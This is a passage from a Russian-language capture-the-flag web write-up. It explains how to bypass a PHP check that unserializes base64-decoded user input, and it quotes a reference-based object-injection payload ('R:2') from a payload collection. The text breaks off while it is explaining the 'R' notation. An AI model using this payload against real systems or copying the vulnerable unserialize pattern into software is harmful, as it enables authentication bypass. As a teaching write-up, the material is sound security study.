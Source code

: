 ## Exam WEB writeup

### 1. Найди сокровище

Попав на сайт, внимание привлекает кнопка `source`, по которой доступны исходники.

```
<?php
if (isset($_GET['source'])) {
    show_source('index.php');
    exit();
}
class Treasure {
    public $key;
    public $secret;
}

$show_secret = 0;

if (!empty($_POST['key']) && !is_array($_POST['key'])) {
    $treasure = @unserialize(base64_decode($_POST['key']));
    if ($treasure !== false) {
        $treasure->secret = getenv('FLAG');

        if ($treasure->key === $treasure->secret) {
            $show_secret = 1;
        }
    }
}
?>
```

Из исходников видно, что нам необходимо выставить $show_secret в значение 1.

Наш переданный ключ декодируется из base64, а после, с помощью функции unserialize формируется
объект класса Treasure. Для того, чтобы условие выполнилось, key и secret, прочитанный из окружения, должны совпадать.

Поискав в интернете методы php unserialize, на payload all the things найдем очень похожую ситуацию:

```
Vulnerable code:

<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
Payload:

O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```
Из документации PHP найдем, что такое R:
